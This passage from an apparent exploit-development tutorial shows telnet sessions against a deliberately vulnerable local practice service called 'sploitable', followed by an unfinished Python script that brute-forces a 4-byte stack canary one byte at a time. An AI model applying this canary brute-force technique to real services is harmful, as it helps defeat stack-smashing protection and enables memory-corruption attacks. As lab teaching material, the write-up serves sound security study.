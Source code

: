 When a string of less than 30 A's is sent, the server will send a "[+] bye!" message before closing the socket. More than 30 A's, and the socket is killed before the bye

```bash Canary Brute Success Condition
root@kali:~# telnet 127.0.0.1 3333
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
[+] hello, my name is sploitable
[+] would you like to play a game?
> A
[+] yeah, I don't think so
[+] bye!                           # <-- We have a bye!
Connection closed by foreign host.

root@kali:~# telnet 127.0.0.1 3333
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
[+] hello, my name is sploitable
[+] would you like to play a game?
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[+] yeah, I don't think so
Connection closed by foreign host. # <-- No bye!
```

This was perfect and exactly what was needed to complete the brute force script! All I had to do was check for the word _bye_ in the last socket receive to know if we have succeeded or not. The resultant script was therefore:

```python canary_brute.py
import socket
import sys

payload = "A" * 30  # amount of bytes before the first canary bit is hit
canary = ""         # the canary

# start the canary brute loop. We want to brute 4 bytes ...
for x in xrange(1,5):

    # ... and try all possibilities
    for canary_byte in xrange(0, 256):

        # prepare the byte
        hex_byte = chr(canary_byte)

        # prepare the payload
        send = payload + canary + hex_byte

        print "[+] Trying: '\\x{0}' in payload '%s' (%d:%d/255)".format(hex_byte.encode("hex")) % (send, x, canary_byte)
    
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(('127.0.0.1', 3333))

        # get the inital banners
        sock.recv(35)   # [+] hello, my name is sploitable\n
        sock.recv(40)   # [+] would you like to play a game?\n
        sock.recv(5)    # >

        # send the payload  
        sock.send(send)
        sock.recv(27)   # [+] yeah, I don't think so\n

        # if we have a OK response, then we will have this last part
```
